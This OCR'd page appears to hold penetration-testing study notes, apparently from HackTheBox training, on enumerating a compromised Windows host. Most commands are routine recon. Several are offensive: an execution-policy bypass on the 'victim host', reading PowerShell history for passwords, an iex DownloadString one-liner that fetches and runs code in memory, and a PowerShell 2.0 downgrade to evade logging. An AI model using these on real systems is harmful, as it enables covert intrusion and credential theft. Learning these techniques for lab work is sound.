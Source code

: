 | Command                                               | Result                                                                                     |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| hostname                                              | Prints the PC's Name                                                                       |
| \[System.Environment]::OSVersion.Version              | Prints out the OS version and revision level                                               |
| wmic qfe get Caption,Description,HotFixID,InstalledOn | Prints the patches and hotfixes applied to the host                                        |
| ipconfig /all                                         | Prints out network adapter state and configurations                                        |
| set                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| echo %USERDOMAIN%                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| echo %logonserver%                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |

systeminfo → will print a summary of the hosts information for us in one tidy output

| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7.2) settings for each scope on a host.                                       |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\\Users\\<USERNAME>\\AppData\\Roaming\\Microsoft\\Windows\\Powershell\\PSReadline\\ConsoleHost_history.txt` | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| \`Get-ChildItem Env:                                                                                                       | ft Key,Value\`                                                                                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |

#### **Downgrade Powershell**

If not uninstalled, there can be older version of powershell. Powershell event logging was introduces as a feature with powershell 3.0 and forward.

If we can call Powershell version 2.0 or older, our action will not be logged into Event Viewer.

* `Get-host` → displays the version of current powershell
* `powershell.exe -version 2` → running version 2 of powershell.

&#x20;1️⃣ **Checking Defenses**

* `PS C:\\htb> netsh advfirewall show allprofiles` → Firewall checks
* `C:\\htb> sc query windefend` → windows defender from cmd
* `PS C:\\htb> Get-MpComputerStatus` → check the status and configuration settings

\<aside> 2️⃣ **Am I Alone?**

\</aside>

* `PS C:\\htb> qwinsta` → display info about remote desktop services.

| **Networking Commands**        | **Description**                                                                                                  |
| ------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                       | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                  | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |